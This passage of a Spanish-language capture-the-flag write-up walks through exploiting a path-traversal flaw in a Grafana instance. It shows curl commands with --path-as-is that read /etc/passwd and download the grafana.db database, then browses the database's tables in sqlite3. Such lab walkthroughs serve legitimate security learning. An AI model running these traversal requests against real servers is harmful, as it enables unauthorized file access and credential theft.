 ```
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
grafana:x:113:118::/usr/share/grafana:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
consul:x:997:997::/home/consul:/bin/false
```
De igual forma podemos hacer uso del comando "curl", agregándole el parámetro ```--path-as-is```, el cual nos sirve para evitar que la URL sea modificada automáticamente antes de ser enviada al servidor.

```sh
$ curl -s --path-as-is http://10.10.11.183:3000/public/plugins/barchart/../../../../../../../../etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
developer:x:1000:1000:developer:/home/developer:/bin/bash
```
Si buscamos en internet donde se almacena la base de datos de grafana, nos saldrá que se almacena en la ruta "/var/lib/grafana/grafana.db"

<img src="path-db.png">

# Ganada de acceso

```
$ curl -s --path-as-is http://10.10.11.183:3000/public/plugins/barchart/../../../../../../../../var/lib/grafana/grafana.db -o grafana.db
                                                                                                                                                                                         
$ sqlite3 grafana.db 

SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
sqlite> .tables
alert                       login_attempt             
alert_configuration         migration_log             
alert_instance              ngalert_configuration     
alert_notification          org                       
alert_notification_state    org_user                  
alert_rule                  playlist                  
alert_rule_tag              playlist_item             
alert_rule_version          plugin_setting            
annotation                  preferences               
```